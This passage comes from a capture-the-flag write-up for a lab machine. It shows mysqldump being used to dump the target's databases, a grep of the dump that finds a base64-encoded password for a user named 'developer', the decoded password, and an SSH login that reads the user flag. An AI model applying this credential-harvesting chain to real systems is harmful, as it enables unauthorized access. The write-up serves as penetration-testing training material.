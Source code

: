 From the hint earlier on the first webpage about a user named developer I grepped for that name and luckily got back a base64 encoded password!

```console
└──╼ [★]$ mysqldump -h 10.129.52.15 -u grafana -p --all-databases > mysql
└──╼ [★]$ cat mysql | grep developer
```
My grepped line.

```INSERT INTO `users` VALUES ('developer','YW5FbmdsaXNoTWFuSW5OZXdZb3JrMDI3NDY4Cg==');```

The full creds decoded.

```
developer
anEnglishManInNewYork027468
```

We are in as developer!

Not too hard so far, lets see what the PE vector has in store for us.

```console
└──╼ [★]$ ssh developer@10.129.52.15
developer@10.129.52.15's password: 
Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 5.4.0-126-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon 03 Oct 2022 10:44:54 PM UTC

  System load:           0.0
  Usage of /:            80.8% of 5.07GB
  Memory usage:          41%
  Swap usage:            0%
  Processes:             228
  Users logged in:       0
  IPv4 address for eth0: 10.129.52.15
  IPv6 address for eth0: dead:beef::250:56ff:feb9:c657


0 updates can be applied immediately.


Last login: Fri Sep  2 02:33:30 2022 from 10.10.0.1
developer@ambassador:~$ cat user.txt
6c698***************************
```

From pspy it shows root is running consul. I Had never dealt with consul but I had a good feeling about it so this was the first thing I checked into.
